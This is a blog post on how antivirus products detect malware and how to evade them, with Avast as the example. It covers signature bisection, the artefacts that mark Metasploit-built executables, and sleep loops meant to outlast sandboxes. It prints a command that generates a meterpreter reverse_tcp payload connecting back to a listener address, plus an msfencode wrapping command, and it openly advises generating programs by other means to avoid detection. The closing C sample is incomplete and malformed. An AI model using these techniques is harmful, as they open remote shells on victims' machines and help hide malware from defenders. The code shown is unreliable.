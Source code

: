 To my surprise, Avast! will flag the binary files(Non-execute files) as malwares too. So it look like it use some 'signature' to judge whether a program is malicious or not. But, what's the signature?

To find out the 'bad string', I use the old bisection method to locate where the signature really is:

    ~/metasploit-framework/msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.56.102 R > payload_raw
    cat payload_raw | cut -c614-663 > malicious.txt

Ok, then I get the 'bad string' into `malicious.txt`. Scan it with Avast!, Avast! flag it as malware. You can download it [here](malicious.txt) and test it with your own avast.

Now we are sure AV softwares use signature to find malwares. It is true, whenever a new suspicious files uploaded to AV vendors(for example, upload it to [Virustotal](https://www.virustotal.com/)), the new malware's signature will be soon added to the virus signature database soon.

But thats not all.

There are other thing AV vendors use to detect malware. For metasploit is too famous in penetration testers' group and other groups, AV softwares begin to detect whether the software is created with it. As a result, even if its not a malware, much AV will still flag your metasploit-created program as malware. You may check the [Metasploit: Low Level View](http://www.intelligentexploit.com/articles/Metasploit:-Low-Level-View.pdf) to learn more.

Seeing is believing. Let's use metasploit framework to generate a program with no payload[^1]:

    echo -ne | ~/metasploit-framework/msfencode -e generic/none -k -x calc.exe -t exe -o calc_no_payload.exe

However, Avast! mark it as a threat `Win32 Rozpatch`, most AVs will detect it as malwares or simply virus as well, you can upload it to [metascan](http://metascan-online.com/) to check it.

What does that mean? You should use another way to generate programs if you won't like your program to be detected.

In a word, Metasploit project are so well-known that nearly all it's encoders and ways to generate programs are well researched. The encoder stub are simply to detect, the strange entrypoint to a rwx section are simply to detect. Much AVs are just detect these things rather than the real 'bad signature'. Then we know we must use our own way to generate programs.

### Sandbox

However, sandbox becomes more and more popular. Whenever a suspicious program runs, it will be comfined to a virtual sandbox environment. If they do something that can be flagged as malicious, the program will soon be marked as malware. Some AV will scan suspicious programs in this way. However, sandbox will take up too much system resources, it will only run it in sandbox for only little time than release it.

So malware authors begin to sleep or do some useless loops to pass the sandbox time. However, some AVs begin to flag program has the strange sleep and loops as malwares as a countermeasure.

The next example is to demonstrate this:

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>
/* test for malwares */
char code[] = 
"";
int add(int);
int main(int argc, char *argv[])
{
  int i,j;
  for(i=0;i<100;i++){
    for(j=0;j<100;j++)
      printf("wait...");
  }
  }

[^1]: Example comes from [http://www.scriptjunkie.us/2011/04/why-encoding-does-not-matter-and-how-metasploit-generates-exes/](http://www.scriptjunkie.us/2011/04/why-encoding-does-not-matter-and-how-metasploit-generates-exes/)
[^2]: Thanks to the article on [Pentest Geek](http://www.pentestgeek.com/2012/01/25/using-metasm-to-avoid-antivirus-detection-ghost-writing-asm/#comment-513), however, nasm may a better choice. for there won't be piles of `db`s
